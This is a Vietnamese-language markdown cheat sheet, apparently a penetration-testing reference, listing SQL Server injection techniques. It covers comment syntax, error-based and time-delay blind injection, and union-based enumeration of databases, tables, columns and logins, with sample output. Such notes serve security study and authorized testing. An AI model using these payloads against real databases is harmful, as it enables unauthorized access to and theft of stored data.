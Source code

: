 # Tổng quan

- SQL Server hoạt động tốt với .NET
- SQL server sử dụng một storage engine được phát triển bởi Microsoft
- Cho phép hủy query giữa chừng
- SQL Server là phần mềm trả phí.
- Sử dụng Management Studio (SSMS)
- SQL Server chủ yếu hỗ trợ Windows, với các tùy chọn triển khai đám mây cho Linux và macOS thông qua Docker.

# String concatenation

```
'Kit'+'Kat'
```

# Substring

```
SUBSTRING('carrot', 4, 2)
```

# Comments

```sql
/*comment*/
--comment
```

# Database version

```sql
SELECT @@version
```

# Database name

```sql
SELECT DB_NAME()
```

# Database contents

```sql
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME'
```

# Conditional errors

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

# Time delays

```sql
WAITFOR DELAY '0:0:10'
```

# Conditional time delays

```
IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10
```

# MSSQL Union Based

```sql
-- lấy tên database
$ SELECT name FROM master..sysdatabases -- `..` dùng để chỉ đối tượng trong 1 cơ sở dữ liệu cụ thể
[*] Injection
[*] msdb
[*] tempdb

-- lấy bảng có trong database Injection 
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U' -- `U` đại diện cho bảng user
[*] Profiles
[*] Roles
[*] Users
 
-- lấy cột có trong bảng Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName
-- tìm id của bảng `Users` trong `sysobjects`, sau đó tìm tất cả cột có trong bảng `Users` từ `syscolumns`

-- láy thông tin
$ SELECT  UserId, UserName from Users
```

# Current User

```sql
SELECT user_name(); 
SELECT system_user; 
SELECT user;
```

# List users

```sql
SELECT name FROM master..syslogins
```


